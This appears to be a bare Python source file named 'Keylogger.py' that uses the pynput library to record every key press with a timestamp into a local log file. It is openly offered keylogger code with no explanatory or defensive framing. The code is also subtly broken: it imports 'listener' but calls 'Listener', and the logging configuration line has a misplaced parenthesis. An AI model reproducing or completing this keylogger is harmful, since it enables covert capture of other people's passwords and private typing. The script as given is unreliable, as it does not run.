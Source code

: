 # Keylogger.py
 Keylogger
import pynput
from pynput.keyboard import Key,listener
import logging 

log_dir = r"C:/Path/TO/Keylogger"
logging.basicConfig(filename = log_dir + r"/keylog.txt"),level=logging.DEBUG, format='%(asctime)s: %(message)s')

def on_press(key):
    logging.info(str(key))
   
with Listener(on_press=on_press) as listener:
     listener.join()
